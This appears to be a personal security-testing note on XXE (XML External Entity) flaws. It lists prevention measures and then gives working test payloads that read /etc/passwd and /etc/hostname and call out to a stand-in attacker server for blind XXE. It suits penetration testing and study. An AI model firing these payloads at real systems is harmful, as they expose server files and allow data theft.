 *What’s the vulnerability hidden within this functionality? The issue is that if users can control the values of XML entities or external entities, they might be able to disclose internal files, port-scan internal machines, or launch DoS attacks.*
### Prevention
> - **Disable XML external entity and DTD processing** in all XML parsers in the application, as per the [OWASP Cheat Sheet ‘XXE Prevention’](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
> - Implement positive (“whitelisting”) server-side input validation, filtering, or sanitization to prevent hostile data within XML documents, headers, or nodes
> - prevent XXE-based DoS, you can limit the XML parser’s parse time and parse depth
> - disallow outbound network traffic to prevent Blind XXE(having the target server make an outbound request with the stolen data)
> - Whenever possible, use less complex data formats such as JSON, and avoiding serialization of sensitive data.
> - Patch or upgrade all XML processors and libraries in use by the application or on the underlying operating system. Use dependency checkers. Update SOAP to SOAP 1.2 or higher.
### hunt for it
1. Find **XML Data Entry Points**
	- browse the app function and find these XML entry points by decoding any blocks of data that look suspicious, search for `"<?xml"` or base64 `LD94bWw`, url-encode `%3C%3Fxml` 
	- you should also look for [[File Upload]] features because XML forms the basis of many XML file types. If you can upload one of these file types (XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, RSS feeds, metadata embedded within images like GIF, PNG, JPEG), you might be able to smuggle XML input to the application’s XML parser. SOAP web services are also XML based
	- In addition to looking for locations where the application accepts XML data by default, you can try to force the application into parsing XML data. send xml to endpoints take plaintext or JSON and change `Content-Type: text/xml` or `Content-Type: application/xml`
	- some applications receive user-submitted data and embed it into an XML document on the server side, you can submit an `XInclude` test payload to the endpoint
2.  test for **Classic XXE** by sending a few trial-and-error XXE payloads and observing the application’s response. 
	1. start by tests if DTD allowed or not
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ <!ENTITY test SYSTEM "Hello!"> ]> 
	<example>&test;</example>
	```
	2. try to get common files `/etc/hostname `, `~/.bash_history`
	 ```xml
	 <?xml version="1.0" encoding="ISO-8859-1"?>
	 <!DOCTYPE root [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
	 <root>&file;</root>
	 ```
	 3. if `SYSTEM` not allowed try `PUBLIC` with random `id`
	```xml
	 <?xml version="1.0" encoding="UTF-8"?> 
	 <!DOCTYPE example [ <!ENTITY test PUBLIC "abc" "file:///etc/hostname"> ]> <example>&test;</example>
	```
	don’t give up if the first few files you try to read do not display
3. Test for **Blind XXE**: If the server takes XML input but does not return the XML document in an HTTP response, first test if the server can make outbound connection, check your server logs.
   if u see the request then try Data Exfiltration from Escalating the Attack point
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt"> ]> <example>&test;</example>
	```
1. Embed XXE Payloads in Different File Types, cuz most of the time File-upload endpoints and file parsers not protected by the same XXE protection mechanisms more on [[File Upload]]
2. Test for XInclude Attacks, when you cannot control the entire XML document or edit the DTD of an XML document. but the application takes your input and inserts it into XML documents on the backend.